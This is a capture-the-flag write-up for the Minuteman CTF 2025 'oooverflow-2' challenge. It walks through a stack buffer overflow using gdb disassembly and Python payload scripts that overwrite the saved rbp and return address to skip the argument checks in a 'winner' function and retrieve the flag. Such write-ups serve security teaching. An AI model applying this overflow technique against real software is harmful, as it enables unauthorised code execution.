```yaml
---
name: minuteman-2025-oooverflow-2
title: minuteman ctf 2025 - oooverflow-2
number: 03
subtitle: writeup for a stack-based buffer overflow
date: 10/20/25
---
```

# Minuteman CTF 2025 Oooverflow-2
## Problem Overview
The main function in this problem is very simple - it is just printed out text with a prompt for a response that gets copied into a buffer. However, looking at the source code, we can see that theres's a super convenient function called `winner` that checks to see if both arguments `a = 0xcafebabe` and `b = deadbeef`. If they don't, the function returns.
## The Vulnerability
Just like the previous oooverflow challenge, `fgets` reads more than the buffer holds, this time, `fgets` reads 0x60 bytes and `buf` is a character array of 32 bytes, which allows for a user to overflow the buffer and rewrite some important registers, like the return value.
## The Solution
Just like last challenge, we need to see how much to overflow by, and what our stack looks like using the disassembly in gdb:
```x86asm
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004019ca <+0>:     push   rbp
   0x00000000004019cb <+1>:     mov    rbp,rsp
   0x00000000004019ce <+4>:     sub    rsp,0x20
   0x00000000004019d2 <+8>:     lea    rax,[rip+0x91687]        # 0x493060
   0x00000000004019d9 <+15>:    mov    rdi,rax
   0x00000000004019dc <+18>:    mov    eax,0x0
   0x00000000004019e1 <+23>:    call   0x404ae0 <printf>
   0x00000000004019e6 <+28>:    lea    rax,[rip+0x916e3]        # 0x4930d0
   0x00000000004019ed <+35>:    mov    rdi,rax
   0x00000000004019f0 <+38>:    mov    eax,0x0
   0x00000000004019f5 <+43>:    call   0x404ae0 <printf>
   0x00000000004019fa <+48>:    lea    rax,[rip+0x916f7]        # 0x4930f8
   0x0000000000401a01 <+55>:    mov    rdi,rax
   0x0000000000401a04 <+58>:    call   0x413990 <puts>
   0x0000000000401a09 <+63>:    lea    rax,[rip+0x91750]        # 0x493160
   0x0000000000401a10 <+70>:    mov    rdi,rax
   0x0000000000401a13 <+73>:    mov    eax,0x0
   0x0000000000401a18 <+78>:    call   0x404ae0 <printf>
   0x0000000000401a1d <+83>:    mov    rdx,QWORD PTR [rip+0xbfcb4]        # 0x4c16d8 <stdin>
   0x0000000000401a24 <+90>:    lea    rax,[rbp-0x20]
   0x0000000000401a28 <+94>:    mov    esi,0x60
   0x0000000000401a2d <+99>:    mov    rdi,rax
   0x0000000000401a30 <+102>:   call   0x4134d0 <fgets>
   0x0000000000401a35 <+107>:   mov    eax,0x0
   0x0000000000401a3a <+112>:   leave
   0x0000000000401a3b <+113>:   ret
End of assembler dump.
```
At offset \<+4>, we see that the compiler moves rsp, the stack pointer, down by 0x20 to allocate space for the program. We can see our locals, which are located with negative offsets to the base pointer, rbp. In this program, we only have one at \<+90>, where our buffer is moved into the rax general purpose register.

Given this, our payload should be 0x20 bytes of junk to fill up that allocated buffer space. The next value moving up the stack is rbp, so let's overwrite that with junk*. Now, we can overwrite ret! The real question is, what should we set it to? Looking at the `winner` function, we could just call the function itself, but we don't have arguments set to `0xcafebabe` or `0xdeadbeef`. We probably could find some way to execute shellcode that does that or create a rop chain to do that, but instead, let's try something simpler - jumping past that! 
```x86asm
(gdb) disas winner
Dump of assembler code for function winner:
   0x0000000000401928 <+0>:     push   rbp
   0x0000000000401929 <+1>:     mov    rbp,rsp
   0x000000000040192c <+4>:     sub    rsp,0x60
   0x0000000000401930 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x0000000000401933 <+11>:    mov    DWORD PTR [rbp-0x58],esi
   0x0000000000401936 <+14>:    cmp    DWORD PTR [rbp-0x54],0xcafebabe
   0x000000000040193d <+21>:    jne    0x4019c7 <winner+159>
   0x0000000000401943 <+27>:    cmp    DWORD PTR [rbp-0x58],0xdeadbeef
   0x000000000040194a <+34>:    jne    0x4019c7 <winner+159>
   0x000000000040194c <+36>:    lea    rax,[rip+0x916dd]        # 0x493030
   0x0000000000401953 <+43>:    mov    rsi,rax
   0x0000000000401956 <+46>:    lea    rax,[rip+0x916d5]        # 0x493032
   0x000000000040195d <+53>:    mov    rdi,rax
   0x0000000000401960 <+56>:    call   0x4137d0 <fopen64>
   0x0000000000401965 <+61>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401969 <+65>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x000000000040196e <+70>:    jne    0x40197f <winner+87>
   0x0000000000401970 <+72>:    lea    rax,[rip+0x916c4]        # 0x49303b
   0x0000000000401977 <+79>:    mov    rdi,rax
   0x000000000040197a <+82>:    call   0x413990 <puts>
   0x000000000040197f <+87>:    lea    rdx,[rbp-0x50]
   0x0000000000401983 <+91>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000401987 <+95>:    lea    rcx,[rip+0x916bd]        # 0x49304b
   0x000000000040198e <+102>:   mov    rsi,rcx
   0x0000000000401991 <+105>:   mov    rdi,rax
   0x0000000000401994 <+108>:   mov    eax,0x0
   0x0000000000401999 <+113>:   call   0x404a20 <__isoc99_fscanf>
   0x000000000040199e <+118>:   lea    rax,[rbp-0x50]
   0x00000000004019a2 <+122>:   mov    rsi,rax
   0x00000000004019a5 <+125>:   lea    rax,[rip+0x916a4]        # 0x493050
   0x00000000004019ac <+132>:   mov    rdi,rax
   0x00000000004019af <+135>:   mov    eax,0x0
   0x00000000004019b4 <+140>:   call   0x404ae0 <printf>
   0x00000000004019b9 <+145>:   mov    rax,QWORD PTR [rbp-0x8]
   0x00000000004019bd <+149>:   mov    rdi,rax
   0x00000000004019c0 <+152>:   call   0x413260 <fclose>
   0x00000000004019c5 <+157>:   jmp    0x4019c8 <winner+160>
   0x00000000004019c7 <+159>:   nop
   0x00000000004019c8 <+160>:   leave
   0x00000000004019c9 <+161>:   ret
End of assembler dump.
```
We can clearly see the values `0xcafebabe` and `0xdeadbeef` being compared, followed by a jump to the end of the program, causing it to exit immediately. The next instruction after those is at \<+36>, so let's try that! 
```python
import sys
import struct

winner = 0x401928
winner_no_checks = winner + 36

payload = b'A'*0x28 + struct.pack('<Q', winner_no_checks)

sys.stdout.buffer.write(payload)
```

```txt
Program received signal SIGBUS, Bus error.
0x401965 in winner ()
```
Okay, so that is not optimal. Let's look at what instruction is at 0x401965:
```x86asm
mov QWORD PTR [rbp-0x8], rax
```
Seems like some issue with referencing (namely, writing to) values relative to rbp. Since rbp references the calling function's rbp, maybe we shouldn't overwrite it with junk values! Let's set our junk to 0x20 bytes, and choose a random, writable, readable address to set rbp to in our payload (I chose 0x4c4000).
```python
import sys
import struct

winner = 0x401928
winner_no_checks = winner + 36

rbp = struct.pack("<Q", 0x4c4000)

payload = b'A'*0x20 + rbp + struct.pack('<Q', winner_no_checks)

sys.stdout.buffer.write(payload)
```
And...
```txt
-> oooverflow2 python3 sol.py | nc pwn.minuteman.umasscybersec.org 9123
My name is Key-per, and duly so, for I carry the key to this door, 
but all is not how it appears, you see.
Or perhaps you do not see at all. 
Perhaps the key is in you, child, but you cannot use your brawn here. 
The door is magically sealed.

Enter your response challenger: 
Congrats!

MINUTEMAN{1_th0ught_y0u'd_l00k_cut3_5tuff3d_1n_th4t_l0ck_ccd0341c5a6e8}
```
Interesting flag, but we got it!